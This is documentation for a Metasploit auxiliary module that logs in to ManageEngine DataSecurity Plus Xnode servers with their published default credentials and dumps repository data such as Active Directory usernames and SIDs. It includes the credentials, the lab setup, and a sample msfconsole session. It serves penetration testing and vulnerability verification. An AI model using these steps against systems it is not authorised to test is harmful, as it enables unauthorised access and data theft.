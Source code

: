 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in DataSecurity Plus versions prior to 6.0.1 (6011)
in order to dump the contents of Xnode data repositories (tables), which may contain (a limited amount of) Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched DataSecurity Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column)

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action,while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 34 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because a default config file exists.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against DataSecurity Plus 6.0.1 (6010) running on Windows Server 2012 R2
and DataSecurity Plus 6.0.5 (6052) running on Windows Server 2019.

## Installation Information
A free 30-day trial of DataSecurity Plus can be downloaded [here](https://www.manageengine.com/data-security/download.html).
To install, just run the .exe and follow the instructions.
In order to configure the ManageEngine DataSecurity Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch DataSecurity Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### DataSecurity Plus 6.0.5 (6052) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_datasecurity_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/datasecurity_pl  no        File specifying the data repositories (tables) and fields (columns) to dump
                us_xnode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29119                                                                                                           yes       The target port (TCP)
   USERNAME     atom

msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > run
[*] Running module against 192.168.1.25

[*] 192.168.1.25:29119 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29119 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29119 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29119 - Target is running Xnode version: "DataEngine-XNode 1.0.1 (1016)".
[*] 192.168.1.25:29119 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29119 - Data repository DSPEmailAuditAttachments is empty.
[*] 192.168.1.25:29119 - Data repository DSPEmailAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointClassificationReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointIncidentReport is empty.
[*] 192.168.1.25:29119 - Data repository DspEndpointPrinterAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DspEndpointWebAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPFileAnalysisAlerts is empty.
[*] 192.168.1.25:29119 - Data repository RAAlertHistory is empty.
[*] 192.168.1.25:29119 - Data repository RAIncidents is empty.
[*] 192.168.1.25:29119 - Data repository RAViolationRecords is empty.
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) 
```
